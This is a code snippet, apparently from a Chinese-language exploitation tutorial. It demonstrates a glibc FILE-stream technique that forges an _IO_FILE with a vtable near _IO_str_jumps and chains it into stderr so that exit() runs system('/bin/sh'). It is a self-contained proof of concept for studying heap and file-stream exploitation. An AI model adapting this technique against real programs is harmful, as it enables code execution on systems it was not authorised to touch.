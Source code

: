 __示例:__

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <stddef.h>

char *shell = "/bin/sh";
size_t str_jumps = ((size_t)&stdin) - (0x3EC850 - 0x3e8360);

int main()
{
    struct _IO_FILE *io = malloc(0x100);

    *(size_t *)(((char *)io) + 0x0) = 0;
    *(size_t *)(((char *)io) + 0x20) = 0;
    *(size_t *)(((char *)io) + 0x28) = 1;
    *(size_t *)(((char *)io) + 0x38) = shell;
    *(size_t *)(((char *)io) + 0xC0) = 0;
    *(size_t *)(((char *)io) + 0xD8) = str_jumps - 0x8;
    *(size_t *)(((char *)io) + 0xE8) = (size_t)&system;

    stderr->_chain = io;

    exit(-1);
    return 0;
}
```
